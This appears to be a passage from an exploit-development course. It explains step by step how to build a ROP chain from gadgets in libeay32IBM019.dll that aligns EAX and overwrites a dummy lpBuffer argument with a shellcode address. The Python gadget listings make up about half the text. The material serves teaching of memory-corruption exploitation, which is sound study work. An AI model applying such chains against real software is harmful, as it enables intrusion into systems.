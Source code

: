 In the case of libeay32IBM019.dll, this turns out to be 0x10000000 as shown in Listing 49.

The preferred base load address of libeay32IBM019.dll matches the upper most byte in the gadget addresses given in the rp++ output. To obtain the offset, we can simply ignore the upper 0x100 value.

We are now ready to create the first part of the ROP chain that replaces the dummy stack address with the shellcode address. We can use a similar approach we used in a previous module but with gadgets from libeay32IBM019.dll.

The first step is to align the EAX register with the shellcode address on the stack.

eip = pack("<L", (dllBase + 0x408d6)) # push esp ; pop esi ; ret

# Patching lpBuffer
rop = pack("<L", (dllBase + 0x296f))    # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242))         # junk into esi
rop += pack("<L", (dllBase + 0x117c))   # pop ecx ; ret
rop += pack("<L", (0x88888888))
rop += pack("<L", (dllBase + 0x1d0f0))  # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x117c))   # pop ecx ; ret
rop += pack("<L", (0x77777878))
rop += pack("<L", (dllBase + 0x1d0f0))  # add eax, ecx ; ret

shows that the gadget we use to overwrite EIP will copy the stack pointer into ESI. Next, we'll get the stack address from ESI into EAX and increase it, pointing it to the shellcode address on the stack.

The EAX alignment shown in Listing 50 reuses a technique from a previous module in which we subtract a small value from EAX by, paradoxically, adding a large value in order to avoid NULL bytes.

In the next step, we update the lpBuffer dummy argument. The gadget we'll use to patch the dummy argument uses the "MOV [EAX], ECX" instruction, so we must move the address of the shellcode into ECX first. We also need to obtain the stack address where the lpBuffer argument should be patched in EAX. A ROP chain to perform this is shown in Listing 51.

rop += pack("<L", (dllBase + 0x8876d))  # mov ecx, eax ; mov eax, esi ; pop esi ; retn 0x0010
rop += pack("<L", (0x42424242))         # junk into esi
rop += pack("<L", (dllBase + 0x48d8c))  # pop eax ; ret 
rop += pack("<L", (0x42424242))         # junk for ret 0x10
rop += pack("<L", (0x42424242))         # junk for ret 0x10
rop += pack("<L", (0x42424242))         # junk for ret 0x10
rop += pack("<L", (0x42424242))         # junk for ret 0x10
rop += pack("<L", (0xfffffee0))         # pop into eax
rop += pack("<L", (dllBase + 0x1d0f0))  # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x1fd8))   # mov [eax], ecx ; ret

As highlighted in the ROP chain above, the first gadget uses a return instruction with an offset of 0x10. As a result, execution will return to the "POP EAX" gadget's address on the stack, and the stack pointer is then increased by 0x10. Because of this we need to insert 0x10 junk bytes before the value (0xfffffee0) that is popped into EAX.

Next, our ROP chain pops the value 0xfffffee0 into EAX and adds the contents of ECX to it. 0xfffffee0 corresponds to -0x120, which is the correct value to align EAX with the lpBuffer placeholder (shellcode pointer) on the stack. Finally, the last gadget overwrites the lpBuffer argument with the real shellcode address.
